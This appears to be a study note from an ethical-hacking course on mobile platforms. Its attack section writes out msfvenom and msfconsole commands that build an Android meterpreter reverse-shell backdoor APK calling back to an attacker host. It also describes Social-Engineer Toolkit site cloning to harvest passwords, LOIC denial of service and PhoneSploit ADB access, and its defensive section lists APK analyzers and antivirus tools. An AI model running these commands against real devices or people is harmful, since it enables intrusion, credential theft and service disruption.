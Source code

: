 # 17. Hacking Mobile Platforms

Android has a stack of software components categorized into six sections:
- System Apps, 
- Java AP Framework, 
- Native C/C++ Libraries, 
- Android Runtime, 
- Hardware Abstraction Layer (HAL) 
- Linux kernel and five layers


## Hack

### Create Binary Payloads
  1. ``` service postgresql start ```
  2. ``` msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=[Attacker IP] R > Desktop/Backdoor.apk ```
  3. ``` msfconsole ```\
     ``` use exploit/multi/handler ```\
     ``` set payload android/meterpreter/reverse_tcp ```\
     ``` set LHOST 10.10.10.13 ```\
     ``` exploit -j -z ```
  4. On android, install Backdoor.apk
  5. See "Meterpreter session 1 opened"
  6. ``` sessions -i 1 ```
  7. ``` sysinfo ```
  8. ``` cd /sdcard ``` pwd, shows "/storage/emulated/0"
  9. ``` ps ``` view the processes running in the system.

### Harvest users’ credentials using the Social-Engineer Toolkit
  
   The toolkit attacks human weakness, exploiting people’s trust, fear, avarice, or helping natures.
   
   1.  ``` cd setoolkit && ./setoolkit ```
   2.  Social-Engineering Attacks
   3.  Website Attack Vectors
   4.  Credential Harvester Attack Method
   5.  Site Cloner
   6.  Make victim to visit the cloned site and enter passwords.

### DoS Attack
  Low Orbit Ion Cannon (LOIC)

  Low Orbit Ion Cannon LOIC_v1.3.apk 

### Exploit the Android Platform through ADB using PhoneSploit
  
  1. ``` cd PhoneSploit ```
  2. ``` python3 -m pip install colorama ```
  3. ``` python3 phonesploit.py ```
  4. ``` select [3] Connect a new phone ```
  5. Get shell command line of the phone.
  6. ``` [7] Screen Shot a picture on a phone ```
  7. ``` [14] List all apps on a phone ```
  8. ``` [15] Run an app ```
  9. ``` [18] Show Mac/Inet ```
  10. ``` [21] NetStat  ```

### online Android analyzers
  - NetCut (http://www.arcai.com), 
  - drozer (https://labs.f-secure.com), 
  - zANTI (https://www.zimperium.com), 
  - Network Spoofer (https://www.digitalsquid.co.uk), and 
  - DroidSheep (https://droidsheep.info)

## Secure

### Sixo Online APK Analyzer
  
  https://www.sisik.eu/apk-tool
  
  Requested Permissions section
  -  Some permissions are granted by the user when installing the app and some need to be confirmed later while the app is running.
  -  declared in the app’s AndroidManifest.xml file
  -  AndroidManifest.xml contains the app’s package name, version information, declarations of app components, requested permissions...

### other tools
- SandDroid (http://sanddroid.xjtu.edu.cn)
- Apktool (http://www.javadecompilers.com)
- Apprisk Scanner (https://apprisk.newskysecurity.com)

### Analyze a Malicious App using Quixxi Vulnerability Scanner

  https://vulnerabilitytest.quixxi.com/#/
  
  Get a Vulnerability Scan Report:
  - Permissions Used
  - CERTIFICATION INFORMATION
  - Issue, Severity, Assessment Status, CWE, Exploits
  
  Android vulnerability scanners:
  - X-Ray (https://duo.com)
  - Vulners Scanner (https://play.google.com)
  - Shellshock Vulnerability Scan (https://play.google.com)
  - Yaazhini (https://www.vegabird.com)
  - Quick Android Review Kit (QARK) (https://github.com) 
  
## Secure Android Devices from Malicious Apps using Malwarebytes Security

  **Malwarebytes** app
  
  ### other mobile antivirus and anti-spyware tools:
  - AntiSpy Mobile (https://antispymobile.com)
  - Spyware Detector - Anti Spy Privacy Scanner (https://play.google.com)
  - iAmNotified - Anti Spy System (https://iamnotified.com)
  - Privacy Scanner (AntiSpy) Free (https://play.google.com)
